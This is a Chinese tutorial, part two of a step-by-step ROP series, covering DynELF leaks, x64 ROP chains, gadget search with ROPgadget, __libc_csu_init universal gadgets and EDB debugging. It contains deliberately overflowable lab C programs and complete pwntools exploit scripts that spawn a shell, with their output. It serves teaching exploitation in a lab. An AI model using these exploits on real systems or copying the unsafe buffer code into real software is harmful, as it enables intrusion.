




原文 by 蒸米  

## 0x00 序

ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击。

在这次的教程中我们会带来上一篇的补充以及linux_x64方面的ROP利用方法，欢迎大家继续学习。 

另外文中涉及代码可在我的github下载：https://github.com/zhengmin1989/ROP_STEP_BY_STEP  

## 0x01 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

注意，这一节是上一篇文章的补充，还是讲的x86的ROP。上次讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。  

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：  
``` python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```
随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对DynELF模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中system()在内存中的地址。    

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。  
```
$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
……
```
因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。  

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用system（.bss），执行“/bin/sh”。最终的exp如下:  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048474

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data


p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804855d

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")

p.interactive()
```
执行结果如下：  
``` 
$ python exp4.py 
[+] Started program './level2'
0x8048000 => 7f454c46
[+] Loading from '/home/mzheng/CTF/level2': Done
0x8049ff8 => 18697eb7
[+] Resolving 'system' in 'libc.so': 0xb77e6918
0x8049f28 => 01000000
0x8049f30 => 0c000000
0x8049f38 => 0d000000
0x8049f40 => f5feff6f
0x8049f48 => 05000000
0x8049f50 => 06000000
0x8049f58 => 0a000000
0x8049f60 => 0b000000
0x8049f68 => 15000000
0x8049f70 => 03000000
0x8049f74 => f49f0408
0xb77e691c => c5eb7db7
0xb77debc5 => 0069203d
0xb77e6924 => 086c7eb7
0xb77e6c0c => c5eb7db7
0xb77e6c14 => 58387cb7
0xb77c385c => 38387cb7
0xb77c3838 => 2f6c6962
0xb77c383c => 2f693338
0xb77c3840 => 362d6c69
0xb77c3844 => 6e75782d
0xb77c3848 => 676e752f
0xb77c384c => 6c696263
0xb77c3850 => 2e736f2e
0xb77c3854 => 36000000
0xb77c3858 => 007060b7
0xb7607000 => 7f454c46
0xb77c3860 => 7cdd7ab7
0xb7607004 => 01010100
0xb77add7c => 01000000
0xb77add84 => 0e000000
0xb77add8c => 0c000000
0xb77add94 => 19000000
0xb77add9c => 1b000000
0xb77adda4 => 04000000
0xb77addac => f5feff6f
0xb77addb0 => b87160b7
0xb77addb4 => 05000000
0xb77addb8 => 584161b7
0xb77addbc => 06000000
0xb77addc0 => 38ae60b7
0xb76071b8 => f3030000
0xb76071bc => 09000000
0xb76071c0 => 00020000
0xb7608390 => 8e050000
0xb7609fa8 => 8ae4ee1c
0xb7610718 => 562f0000
0xb76170ae => 73797374
0xb76170b2 => 656d0074
0xb761071c => 60f40300
system_addr=0xb7646460

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x02 linux_64与linux_86的区别

linux_64与linux_86的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。  

我们还是拿实际程序做例子进行讲解,level3.c内容如下：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
我们打开ASLR并用如下方法编译：  

`$ gcc -fno-stack-protector level3.c -o level3`  
通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：  
```
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
然后运行gdb ./level3后输入这串字符串造成程序崩溃。  
```
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
```
奇怪的事情发生了，PC指针并没有指向类似于0x41414141那样地址，而是停在了vulnerable_function()函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。  
```
(gdb) x/gx $rsp
0x7fffffffe188: 0x3765413665413565
```
在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。  
```
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```
可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于0x00007fffffffffff的地址，看看这次能否控制pc的指针。  
```
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload 
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```
可以看到我们已经成功的控制了PC的指针了。所以最终的exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive()
```

## 0x03使用工具寻找gadgets

我们之前提到x86中参数都是保存在栈上,但在x64中前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于pop rdi; ret的这种gadget。如果是简单的gadgets，我们可以通过objdump来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。比较有名的工具有：  

ROPEME: https://github.com/packz/ropeme  
Ropper: https://github.com/sashs/Ropper  
ROPgadget: https://github.com/JonathanSalwan/ROPgadget/tree/master  
rp++: https://github.com/0vercl0k/rp  
这些工具功能上都差不多，找一款自己能用的惯的即可。  

下面我们结合例子来讲解，首先来看一下目标程序level4.c的源码：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译方法：  

`gcc -fno-stack-protector level4.c -o level4 -ldl`  
首先目标程序会打印system()在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发buffer overflow然后利用ROP执行system(“/bin/sh”)。但为了调用system(“/bin/sh”)，我们需要找到一个gadget将rdi的值指向“/bin/sh”的地址。于是我们使用ROPGadget搜索一下level4中所有pop ret的gadgets。  
```
$ ROPgadget --binary level4 --only "pop|ret" 
Gadgets information
============================================================
0x00000000004006d2 : pop rbp ; ret
0x00000000004006d1 : pop rbx ; pop rbp ; ret
0x0000000000400585 : ret
0x0000000000400735 : ret 0xbdb8
```
结果并不理想，因为程序比较小，在目标程序中并不能找到pop rdi; ret这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。  
```
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000001f27d : pop rdi ; pop rbp ; ret
0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
0x0000000000073033 : pop rdi ; pop rbx ; ret
0x0000000000022a12 : pop rdi ; ret
```
这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。  

`payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)`  
另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。  
```
$ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
0x000000000012da1d : call qword ptr [rdi]
0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
0x00000000000f1f04 : call rdi
0x00000000000f4739 : pop rax ; pop rdi ; call rax
0x00000000000f473a : pop rdi ; call rax
```
通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax` 也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。  

`payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)`  
所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)


pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```
运行结果如下：  
```
$ python exp6.py 
[+] Started program './level4'
binsh_addr_offset = 0x134d41
pop_ret_offset = -0x22d1e

##########receiving system addr##########

system_addr = 0x7f6f754d8730
binsh_addr = 0x7f6f7560d471
pop_ret_addr = 0x7f6f754b5a12

##########sending payload##########

[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x04 通用gadgets

因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。 

为了方便大家学习x64下的ROP，level3和level4的程序都留了一些辅助函数在程序中，这次我们将这些辅助函数去掉再来挑战一下。目标程序level5.c如下：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
可以看到这个程序仅仅只有一个buffer overflow，也没有任何的辅助函数可以使用，所以我们要先想办法泄露内存信息，找到system()的值，然后再传递“/bin/sh”到.bss段, 最后调用system(“/bin/sh”)。因为原程序使用了write()和read()函数，我们可以通过write()去输出write.got的地址，从而计算出libc.so在内存中的地址。但问题在于write()的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过寄存器传值。我们使用ROPgadget并没有找到类似于pop rdi, ret,pop rsi, ret这样的gadgets。那应该怎么办呢？其实在x64下有一些万能的gadgets可以利用。比如说我们用`objdump -d ./level5`观察一下`__libc_csu_init()`这个函数。一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。  
```
00000000004005a0 <__libc_csu_init>:
  4005a0:   48 89 6c 24 d8          mov    %rbp,-0x28(%rsp)
  4005a5:   4c 89 64 24 e0          mov    %r12,-0x20(%rsp)
  4005aa:   48 8d 2d 73 08 20 00    lea    0x200873(%rip),%rbp        # 600e24 <__init_array_end>
  4005b1:   4c 8d 25 6c 08 20 00    lea    0x20086c(%rip),%r12        # 600e24 <__init_array_end>
  4005b8:   4c 89 6c 24 e8          mov    %r13,-0x18(%rsp)
  4005bd:   4c 89 74 24 f0          mov    %r14,-0x10(%rsp)
  4005c2:   4c 89 7c 24 f8          mov    %r15,-0x8(%rsp)
  4005c7:   48 89 5c 24 d0          mov    %rbx,-0x30(%rsp)
  4005cc:   48 83 ec 38             sub    $0x38,%rsp
  4005d0:   4c 29 e5                sub    %r12,%rbp
  4005d3:   41 89 fd                mov    %edi,%r13d
  4005d6:   49 89 f6                mov    %rsi,%r14
  4005d9:   48 c1 fd 03             sar    $0x3,%rbp
  4005dd:   49 89 d7                mov    %rdx,%r15
  4005e0:   e8 1b fe ff ff          callq  400400 <_init>
  4005e5:   48 85 ed                test   %rbp,%rbp
  4005e8:   74 1c                   je     400606 <__libc_csu_init+0x66>
  4005ea:   31 db                   xor    %ebx,%ebx
  4005ec:   0f 1f 40 00             nopl   0x0(%rax)
  4005f0:   4c 89 fa                mov    %r15,%rdx
  4005f3:   4c 89 f6                mov    %r14,%rsi
  4005f6:   44 89 ef                mov    %r13d,%edi
  4005f9:   41 ff 14 dc             callq  *(%r12,%rbx,8)
  4005fd:   48 83 c3 01             add    $0x1,%rbx
  400601:   48 39 eb                cmp    %rbp,%rbx
  400604:   75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:   48 8b 5c 24 08          mov    0x8(%rsp),%rbx
  40060b:   48 8b 6c 24 10          mov    0x10(%rsp),%rbp
  400610:   4c 8b 64 24 18          mov    0x18(%rsp),%r12
  400615:   4c 8b 6c 24 20          mov    0x20(%rsp),%r13
  40061a:   4c 8b 74 24 28          mov    0x28(%rsp),%r14
  40061f:   4c 8b 7c 24 30          mov    0x30(%rsp),%r15
  400624:   48 83 c4 38             add    $0x38,%rsp
  400628:   c3                      retq   
```
我们可以看到利用0x400606处的代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x4005f0处的代码我们将r15的值赋值给rdx, r14的值赋值给rsi,r13的值赋值给edi，随后就会调用`call qword ptr [r12+rbx*8]`。这时候我们只要再将rbx的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx*8]`之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。大概思路就是这样，我们下来构造ROP链。  

我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是`call qword ptr [r12+rbx*8]`，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
```
当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```
最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
```
最终exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
```
要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。最终执行结果如下：  
```
$ python exp7.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
off_system_addr: 0xa1c40

#############sending payload1#############

write_addr: 0x7f79d5779370
system_addr: 0x7f79d56d7730

#############sending payload2#############


#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x05 EDB调试器

我们在学习Linux ROP的过程中一定少不了调试这一环节，虽然gdb的功能很强大，但命令行界面对很多人来说并不友好。很多学习Windows调试的人用惯了ollydbg再接触gdb的话总感觉很难上手。其实在linux下也有类似于ollydbg的调试工具，那就是EDB-debugger。这里给出edb的下载地址，具体的编译请参考readme：  

EDB-debugger https://github.com/eteran/edb-debugger  
下面我们就拿level5做例子来讲解一下如何使用EDB。首先是挂载(attach)进程和设置断点(break point)。我们知道当我们在用exp.py脚本进行攻击的时候，脚本会一直运行，我们并没有足够的时间进行挂载操作。想要进行调试的话我们需要让脚本暂停一下，随后再进行挂载。暂停的方法很简单，只需要在脚本中加一句”raw_input()”即可。比如说我们想在发送payload1之前暂停一下脚本，只需要这样：  
```
ss = raw_input()
print "\n#############sending payload1#############\n"
p.send(payload1)
```
这样的话，当脚本运行起来后，就会在raw_input()这一行停下来，等待用户输入。这时候我们就可以启动EDB进行挂载了。  

  

使用EDB进行挂载非常简单，输入进程名点ok即可。  

  

挂载上以后就可以设置断点了。首先在调试窗口按”ctrl + g”就可以跳转到目标地址，我们这里将地址设置为0x400610，也就是第一个gadget的地址。

  

接着我们在0x400610这个地址前双击，就可以看到一个红点，说明我们已经成功的下了断点。接着按“F9”或者点击”Run”就可以让程序继续运行了。

虽然程序继续运行了，但是脚本还在继续等待用户的输入，这时候只需要在命令行按一下回车，程序就会继续运行，随后会暂停在”0x400610”这个断点。  

  

接着我们可以按”F8”或者”F7”进行单步调试，主窗口会显示pc将要执行的指令以及执行后的结果。右边会看到各个寄存器的值。注意，在寄存器（比如说RSP）的值上点击右键，可以选择”follow in dump”，随后就在data dump窗口就能看到这个地址上对应数据是什么了。除此之外，EDB还支持动态修改内存数据，当你选中数据后，可以右键，选择”Edit Bytes”，就可以对选中的数据进行动态修改。  

以上介绍的只是EDB的一些基本操作，在随后的章节中我们还会结合其他例子继续介绍一些EDB的高级用法。  

## 0x06小结

可以说ROP最大的艺术就是在于gadgets千变万化的组合了。因为篇幅原因我们准备将如何寻找以及组合gadgets的技巧留到随后的文章中去介绍。欢迎大家到时继续学习。  

## 0x07 参考资料

[64位Linux下的栈溢出](http://packetstormsecurity.com/files/download/127007/64bit-overflow.pdf)    
[Week4-bigdata-丘比龙版银河系最详细Writeup!](https://blog.leoc.io/blog/20140414/week4-bigdata-writeup/)